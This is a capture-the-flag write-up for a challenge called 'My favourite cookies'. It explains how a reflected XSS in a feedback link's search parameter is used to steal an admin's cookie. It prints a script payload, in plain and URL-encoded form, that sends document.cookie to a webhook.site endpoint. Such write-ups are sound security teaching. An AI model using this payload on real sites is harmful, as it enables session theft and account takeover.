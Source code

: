 # Challenge `My favourite cookies` Writeup

- Vulnerability:
    - XSS attack

- Where:
    - Feedback link input

- Impact:
    - Allows to steal remote user's cookie

## Steps to reproduce

This challenge consists in grabbing the admin's cookie and we know that the website is vulnerable to XSS attacks and that the admin will click on the link we submit on the feadback feature.

We can take advantage from this and send a malicious payload on the search URL parameter (`?search=`) of the feedback link. This payload will then reveal the admin's cookie and send it to us.

To achieve this, we must create a website on [Webhook.site](https://webhook.site) and get the URL of the website that will receive the remote requests. Then, we can create a malicious payload that will send the admin's cookie to our webhook. The payload is the following: `<script>location='https://webhook.site/<unique-id>/'+document.cookie</script>`. To ensure that the payload will be correctly executed, we must URL encode it. The final payload is then: `%3Cscript%3Elocation%3D%27https%3A%2F%2Fwebhook.site%2F<unique-id>%2F%27%2Bdocument.cookie%3C%2Fscript%3E`. Finally, we append this encoded payload to the search URL parameter of the feedback link and submit it to the admin.

The admin will then click on the link and automatically make a search query with the payload that will send a request to our webhook site with the cookie appended. In the webhook site we will see a GET request and then we only need to URL decode the cookie to get the flag. The flag will be after `/SECRET=`.
